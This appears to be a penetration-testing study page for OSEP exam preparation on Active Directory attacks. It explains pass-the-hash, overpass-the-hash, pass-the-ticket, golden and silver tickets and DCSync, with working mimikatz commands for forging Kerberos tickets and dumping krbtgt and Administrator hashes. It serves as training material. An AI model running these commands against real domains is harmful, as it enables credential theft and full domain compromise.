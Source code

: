 (Although the techniques explained here aren't teached in the OSEP, I found them pretty useful during my OSEP exam & labs, learning and researching
about them also helped me improve my knowlegde of Active Directory which is always useful)

**PASS THE HASH:**

The pass-the-hash techinque allows an attacker to authenticate to remote systems using the user NTLM hash(the static part, also known as NT hash). 
Note that the pass-the-hash technique only applies to Windows/NTLM authentication and not to Kerberos authentication.

There are lots of tools that support pass-the-hash. For example all the impacket suite supports it, xfreerdp also does, mimikatz also does, and the
list keeps going on...

Passing the hash from bare bones *nix systems using [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit/tree/master).

**OVERPASS THE HASH:**

Overpass the hash, presented in the [blackhat](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf). This technique allows an attacker to get a TGT using only the NTLM hash of the user. 

We can for example use overpass the hash through [mimikatz](https://github.com/gentilkiwi/mimikatz):

```
mimikatz # sekurlsa::pth /user:user1 /domain:contoso.com /ntlm:<ntlm_hash> /run:PowerShell.exe
```

Once we have the new powershell session, we can authenticate to any AD resource to obtain a TGT, here's an example:

```
PS C:\> klist  -> no TGT for the user1

PS C:\> net use \\dc01.contoso.com

PS C:\> klist -> TGT for the user1
```

**PASS THE TICKET:**

The pass-the-ticket technique abuses the TGS, which can be exported and injected somewhere else.

```
Listing tickets with mimikatz:

mimikatz # kerberos::list


Exporting all tickets(TGTs and TGSs) with mimikatz:

mimikatz # sekurlsa::tickets /export   -> note that the TGTs can only be used from the machine they where generated on, the TGSs can be used elsewhere


Injecting some ticket into memoeyr with mimikatz:

mimikatz # kerberos::ptt 'C:\ticket.kirbi'
```

**GOLDEN TICKETS:**

With golden tickets, we can create TGTs for any domain resource that we want, and stating the groups we want. However to execute this attack we need the "krbtgt" domain account NTLM hash/password. Note that this attack is mostly used when you are already Domain Admin rather than trying to become one.

Now, armed with the "krbtgt" NTLM hash, we can proceed and craft our golden ticket with mimikatz:

```
mimikatz # kerberos::purge

mimikatz # kerberos::golden /user:trike /domain:contoso.com /sid:<our_sid_without_the_rid_part> /krbtgt:<ntlm_hash_of_krbtgt> /ptt
(mimikatz by default will assing us the RID of 500, however we can set a custom one via the "/id" parameter)

mimikatz # misc::cmd -> launcing a new cmd with our new TGT
```

**SILVER TICKETS:**

This technique consists of crafting a TGS with the password hash of the SPN. The interesting part about this TGS, is that we can modify our permissions(such as user id or group id) stating that we are local administrator/domain admin/etc on the server where the SPN we have compromised is running its service. 

In our example, our compromimsed SPN will we "svc_mssql", its NTLM password hash will be this "1BF1DE6AEDB12AE1E548210EDBF3511E", its FQDN will be "MSSQL/server.contoso.com" and the SID of the trike user will be "S-1-5-21-2602875597-2787548311-2599479668-1204"

```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::list

mimikatz # kerberos::golden /user:trike /domain:contoso.com /sid:S-1-5-21-2602875597-2787548311-2599479668 /target:server.contoso.com /service:MSSQL /rc4:1BF1DE6AEDB12AE1E548210EDBF3511E /ptt
```
(note that in the sid parameter we didn't specify the RID of the trike user, since mimikatz will automatically set our RID to 500 which equals to both local administrator and domain admin)

**BRONZE TICKETS:**


**DOMAIN CONTROLLER SYNCHRONIZATION:**

This is an alternative way to get any domain user hash without dumping the entire NTDS.dit database. For this reason DcSync is way stealthier. 

This attack works because the domain controller recieving the request doesn't verify that the request came from a know domain controller, only that the SID has the appropiate permissions to do so. For this reason, if a domain admin sends a request to a domain controller, this will likely succeed. 

We can perform this attack with mimikatz:

```
mimikatz # lsadump::dcsync /user:Administrator

mimikatz # lsadump::dcsync /user:krbtgt
```
